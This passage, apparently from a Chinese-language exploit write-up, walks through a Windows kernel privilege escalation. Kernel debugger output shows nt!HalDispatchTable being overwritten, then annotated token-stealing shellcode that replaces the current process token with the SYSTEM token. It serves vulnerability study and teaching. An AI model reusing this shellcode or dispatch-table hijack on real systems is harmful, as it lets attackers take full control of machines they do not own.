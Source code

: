 ```
eax=83f3b3e0 ebx=00000008 ecx=8a284080 edx=00000001 esi=00000008 edi=00020704
eip=83ebe4d1 esp=8e7f5bc4 ebp=8e7f5c1c iopl=0         nv up ei pl nz na po nc
cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00000202
nt!NtSetInformationWorkerFactory+0x16e:
83ebe4d1 8b4de4          mov     ecx,dword ptr [ebp-1Ch] ss:0010:8e7f5c00=868536a8
kd> dds nt!HalDispatchTable
83f3b3f8  00000004
83f3b3fc  00020704
83f3b400  8424a1b4 hal!HalpSetSystemInformation
83f3b404  840c4637 nt!xHalQueryBusSlots
```

成功覆盖nt!HalDispatchTable第一个函数指针hal!HaliQuerySystemInformation
### Step.7
接下来只需要在用户态调用hal!HaliQuerySystemInformation就可以改变内核流程，转向shellcode了

```
kd> 
eax=8e7f5be0 ebx=8411ce01 ecx=01af4c38 edx=8411ce6b esi=01af4c38 edi=00001337
eip=840db438 esp=8e7f5bd0 ebp=8e7f5bf0 iopl=0         nv up ei pl nz na pe nc
cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00000206
nt!KeQueryIntervalProfile+0x23:
840db438 ff15fcb3f383    call    dword ptr [nt!HalDispatchTable+0x4 (83f3b3fc)] ds:0023:83f3b3fc=00020704//已被改写成shell地址
kd> t
Breakpoint 19 hit
00020704 90              nop
kd> p;r
eax=8e7f5be0 ebx=8411ce01 ecx=01af4c38 edx=8411ce6b esi=01af4c38 edi=00001337
eip=00020705 esp=8e7f5bcc ebp=8e7f5bf0 iopl=0         nv up ei pl nz na pe nc
cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00000206
00020705 90              nop
kd> 
eax=8e7f5be0 ebx=8411ce01 ecx=01af4c38 edx=8411ce6b esi=01af4c38 edi=00001337
eip=00020706 esp=8e7f5bcc ebp=8e7f5bf0 iopl=0         nv up ei pl nz na pe nc
cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00000206
00020706 31c0            xor     eax,eax
```

成功以内核权限执行用户态的shellcode，下面着重分析下shellcode的提权部分：

```
00020704 90              nop                                   //恢复函数指针，避免BSOD
00020705 90              nop
00020706 31c0            xor     eax,eax
00020708 b8a278e283      mov     eax,offset hal!HaliQuerySystemInformation (83e278a2)
0002070d a3fc23f683      mov     dword ptr [nt!HalDispatchTable+0x4 (83f623fc)],eax
00020712 52              push    edx
00020713 53              push    ebx
00020714 33c0            xor     eax,eax                       //修改Token
00020716 648b8024010000  mov     eax,dword ptr fs:[eax+124h]   //获取线程的_KTHREAD结构
0002071d 8b4050          mov     eax,dword ptr [eax+50h]       //获得当前进程_EPROCESS结构地址
00020720 8bc8            mov     ecx,eax                       //ecx保存_KPROCESS结构地址
00020722 8b98f8000000    mov     ebx,dword ptr [eax+0F8h]      //ebx指向进程Token
00020728 891d00090200    mov     dword ptr ds:[20900h],ebx     //保存当前进程Token
0002072e 8b80b8000000    mov     eax,dword ptr [eax+0B8h]      //开始遍历活动进程链表
00020734 81e8b8000000    sub     eax,0B8h                      //获得新进程的_EPROCESS地址
0002073a 81b8b400000004000000 cmp dword ptr [eax+0B4h],4       //判断是否是system进程
00020744 75e8            jne     0002072e
00020746 8b90f8000000    mov     edx,dword ptr [eax+0F8h]      //获得system进程Token地址
0002074c 8bc1            mov     eax,ecx                       //eax恢复当前进程_KPROCESS地址
0002074e 8990f8000000    mov     dword ptr [eax+0F8h],edx      //将当前进程Token指针指向system Token，提权
00020754 33c0            xor     eax,eax                       //修复对象
00020756 648b8024010000  mov     eax,dword ptr fs:[eax+124h]
0002075d 8b4050          mov     eax,dword ptr [eax+50h]       //获得当前进程_EPROCESS地址
```